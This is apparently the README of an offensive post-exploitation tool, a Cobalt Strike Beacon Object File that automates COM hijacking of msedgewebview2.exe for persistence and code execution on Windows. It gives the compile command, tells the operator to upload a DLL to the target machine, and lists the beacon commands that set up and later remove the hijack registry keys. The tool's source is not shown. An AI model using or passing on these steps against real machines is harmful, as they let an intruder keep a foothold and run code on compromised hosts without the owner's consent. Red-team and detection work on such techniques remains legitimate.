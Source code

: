 # COM Hijack BOF
Automates COM hijacking of `msedgewebview2.exe` for persistence and code execution.

## Compilation
In x64 Native Tools Command Prompt for VS:
```
cl.exe /c /GS- /O2 comhijack.c /Focomhijack.x64.o
```

## Usage
1. Upload the DLLs to the target machine
2. Run the command to setup the COM hijacking
```
beacon> comhijack C:\path\to\hijack.dll
```
3. Clean up the COM hijacking Registry keys
## Cleanup
```
beacon> comhijack_cleanup
```





